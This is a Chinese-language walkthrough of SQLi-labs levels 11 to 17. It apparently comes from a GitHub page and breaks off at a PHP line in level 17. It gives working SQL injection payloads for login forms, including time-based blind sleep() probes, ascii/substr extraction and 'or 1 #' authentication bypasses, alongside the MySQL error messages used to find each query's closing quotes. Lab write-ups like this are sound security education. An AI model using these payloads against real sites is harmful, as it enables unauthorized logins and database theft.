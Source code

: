 在用户名处输入`admin' and sleep(5) #`有时间差，说明可以时间盲注。
(根据第5关进行操作) `admin ' and If(ascii(substr(database(),1,1))>1,1,sleep(5)) #`

## ***Less-12- Error Based- Double quotes- String***

测试单引号不报错，测试双引号报错，
	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"admin"") and password=("") LIMIT 0,1' at line 1

从`"admin"") and password=("") LIMIT 0,1`可以看出字符型注入，闭合方式为`")`

区域步骤与11关操作类似。

## ***Less-13- Double Injection- String- with twist***

测试单引号，报错
	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin'') and password=('') LIMIT 0,1' at line 1

从`'admin'') and password=('') LIMIT 0,1`看出字符型注入闭合方式为`')`

admin登录和万能密码`admin') or 1 #`登录没有回显。

但根据测试and和sleep，可以进行报错注入、、布尔盲注和时间盲注。(操作方法与第11关类似)

## ***Less-14- Double Injection- Double quotes- String***

测试单引号没报错，双引号报错，
	
	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"admin"" and password="" LIMIT 0,1' at line 1

根据`"admin"" and password="" LIMIT 0,1`看出字符型注入闭合方式为`"`双引号

模仿11关进行报错注入、布尔盲注和时间盲注。

## ***Less-15- Blind- Boolian Based- String***

测试单引号、双引号、括号之类的都没有报错。但当输入`123' or 1 #`，成功登录，说明闭合方式为单引号。

测试and `admin' and 1=1 #`，此时只有admin为数据库中有的数据才能正常登录。

测试sleep(),说明这关可以进行布尔盲注和时间盲注。

## ***Less-16- Blind- Time Based- Double quotes- String***

与15关相同关闭了报错提示，但可以根据页面的回显来判断。

当测试到`admin") #`时页面显示登陆成功，所以闭合方式为双引号括号`")`，如果不知道用户名可以这样测试， `123") or 1 #`

本关依旧是可以进行布尔盲注和时间盲注。

## ***Less-17 Update Query- Error based - String***

    $uname=check_input($_POST['uname']);  
    